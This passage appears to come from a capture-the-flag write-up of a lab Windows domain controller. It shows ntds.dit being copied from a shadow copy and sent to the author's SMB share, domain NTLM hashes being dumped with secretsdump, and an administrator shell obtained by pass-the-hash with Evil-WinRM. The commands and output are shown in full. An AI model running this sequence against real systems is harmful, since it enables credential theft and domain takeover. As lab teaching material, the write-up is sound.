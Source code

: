 ```terminal
Number of shadow copies listed: 1
-> expose %temp% z:
-> %temp% = {5ec1bfb7-7229-4f02-b4ac-2245835c57c3}
The shadow copy was successfully exposed as z:\.

```

We have successfully created a shadow copy of c in a drive called z.

Let's copy ndts.dit.

```bash
robocopy "z:\windows\ndts\" "C:\Users\svc_backup\desktop" ndts.dit /B
```

Now let's download it to our machine.

```bash
copy ntds.dit \\10.10.16.18\share
```

Since we already have the system file, let's dump the data with `secretsdump`

```terminal
secretsdump.py -ntds ntds.dit -system system local                    
/home/sirius/.local/pipx/venvs/impacket/lib/python3.11/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_
resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.                                              
  import pkg_resources                                                         
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies          
                                                                               
[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393                  
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                  
[*] Searching for pekList, be patient                                          
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c              
[*] Reading and decrypting hashes from ntds.dit                                
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:5b96daeeb18ac242f33cc91822dea527:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```

We got the administrator's hash, let's get a shell.

```terminal
[★]$ evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
